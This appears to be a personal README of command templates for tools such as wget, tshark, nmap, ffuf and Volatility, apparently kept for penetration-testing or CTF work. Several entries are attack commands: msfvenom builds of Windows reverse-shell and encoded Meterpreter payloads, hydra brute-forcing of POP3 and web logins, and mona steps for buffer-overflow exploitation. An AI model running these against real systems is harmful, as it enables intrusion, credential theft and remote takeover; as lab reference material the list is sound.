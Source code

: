 # Command-Templates
## Just a few template commands to copy because I'm forgetful

### wget (Downloading a directory)
```
wget -r -np -nH --cut-dirs=3 -R index.html <DIRECTORY>
```

### yt-dlp (Downloading the best quality from a file)
```
yt-dlp  --merge-output-format mp4 -f "bestvideo+bestaudio[ext=m4a]/best" -a likes.txt
```

### tshark (Extracting dns records)
```
tshark -r <PACKET_FILE> -Tfields -e dns.qry.name -Y "ip.src_host==<IP_ADDRESS>" > <TXT_FILE>
```

### ffuf (Recursive directory scanning)
```
ffuf -w <WORDLIST> -u http://<IP_ADDRESS>/FUZZ -o <OUTPUT_FILE> --recursion -fc 403
```

### nmap (Basic network scanning)

```
nmap -sC -sV --oN <OUTPUT_FILE> -vv -Pn <IP_ADDRESS>
```

### msfvenom (Simple Windows Payload)
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LISTENING_IP_ADDRESS> LPORT=<LISTENING_PORT> -f exe -e x86/shikata_ga_nai -o <OUTPUT_FILE>
```

### msfvenom (Simple Windows Payload Shell)
```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> EXITFUNC=thread -f py -b [bad characters]
```

### hydra (brute forcing)
```
hydra -S -v -l <USERNAME> -P <PASSWORD> -s 995 -f <IP_ADDRESS> <SERVICE> -V
```

### hydra (http-post-form)
```
hydra -t 4 -V -l <USERNAME> -P <PASSWORD_LIST> http-post-form <IP_ADDRESS> "<DIRECTORY> : <RAW_POST_REQUEST> <ERROR_MESSAGE>"
```

### hydra (pop up login page)
```
hydra -l usernames.txt -P <PASSWORD> <IP_ADDRESS> http-get / -V
```

### Immunity Debugger (Finding bad characters)
```
!mona bytearray -b "\x00"
!mona compare -f <binary file> -a <address>
```

### Immunity Debugger (Finding a jump point)
```
!mona jmp -r esp -cpb [bad characters]
```

### Volatility 3 (Dumping Windows Files)
```
./vol.py -f <PATH_TO_MEMDUMP> windows.dumpfiles.DumpFiles --dump --pid <PID> 
```

### Examining .DS_Store
```
xxd -p <path/to/.DS_Store> | sed 's/00//g' | tr -d '\n' | sed 's/\([0-9A-F]\{2\}\)/0x\1 /g' | xxd -r -p | strings | sed 's/ptb[LN]ustr//g'
```

### Connecting to pop3 with SSL
```
openssl s_client -connect <IP_ADDRESS>:<PORT> -crlf -quiet
```
